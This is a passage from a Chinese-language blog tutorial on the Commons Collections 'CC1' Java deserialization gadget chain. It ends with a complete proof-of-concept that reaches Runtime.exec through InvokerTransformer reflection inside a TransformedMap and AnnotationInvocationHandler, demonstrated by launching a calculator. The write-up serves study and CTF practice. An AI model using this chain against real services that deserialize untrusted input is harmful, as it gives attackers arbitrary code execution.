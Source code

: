 这样一来，我们的 `setValue` 方法就无视任何传参，这个 `chainedTransformer` 永远按照我们的预期运行。

修改之后，我们对 `AnnotationInvocationHandler` 这个对象序列化并反序列化，然后运行，发现成功弹出了计算器。到此，我们的攻击链彻底的构造完成。

## 最终 POC

我在这里放出我最终的 POC

```java
public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, InstantiationException {
    // 构造 chainedTransformer
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"kcalc"}),
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

    // 构造 transformedMap
    HashMap<Object, Object> map = new HashMap<>();
    map.put("value", "value");
    Map<Object, Object> transformedMap = (Map) TransformedMap.decorate(map, null, chainedTransformer);

    // 构造 annotationInvocationHandler 然后序列化
    Class annotationInvocationHdl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = annotationInvocationHdl.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object obj = constructor.newInstance(Target.class, transformedMap);

    serialize(obj, "ser.bin");

    // 反序列化，验证成果
    unserialize("ser.bin");
}
```

在这里 `serialize` 和 `unserialize` 两个方法我就不放出来了，总之就是序列化与反序列化。

## 总结

CC1 的 `TransformedMap` 分支也就总结完了，接下来，可以试一下 `LazyMap` 路线，也可以继续别的 CC 链。另外在 ctfshow 上面还有配套题，完事后我可以上传一份题解，就先这样，下次见！
